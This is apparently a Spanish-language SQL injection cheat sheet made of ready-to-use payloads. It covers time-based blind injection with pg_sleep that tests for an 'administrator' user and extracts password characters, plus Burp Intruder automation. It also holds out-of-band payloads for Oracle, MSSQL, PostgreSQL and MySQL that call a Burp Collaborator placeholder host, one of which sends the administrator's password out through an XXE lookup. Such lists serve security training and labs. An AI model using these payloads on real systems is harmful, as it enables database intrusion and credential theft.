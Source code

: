 ### Ejemplo TIME
~~~sql
'-- Comprobamos si existe un delay
'; SELECT pg_sleep(3) -- c
'-- Comprobamos si existe un delay en sentencias CASE
'; SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END -- c

'-- Conocer si existe el usuario <administrator> en la tabla <users>
'; SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator' -- c

'-- Conocer si existe un campo password mayor a 0 del usuario <administrator> en la tabla <users> # sleep 3s
'; SELECT CASE WHEN LENGTH(password)>0 THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator' -- c

'-- Automatizacion con ClusterBomb en Burp Proxy Intruder # 500 error in response
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN pg_sleep(3) ELSE '' END FROM users WHERE username='administrator')||' -- c
~~~

### Ejemplo out-of-band interaction
~~~sql
-- Posibles payloads
-- Oracle
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

-- Microsoft
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'

-- PostgreSQL
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

-- MySQL
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

-- Posibles implementaciones a partir de
'||(SELECT '') -- c
'||(SELECT '' FROM dual) -- c

-- Exfiltrado de información
propia
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.{domain}/"> %remote;]>'),'/l') FROM dual) -- c

~~~
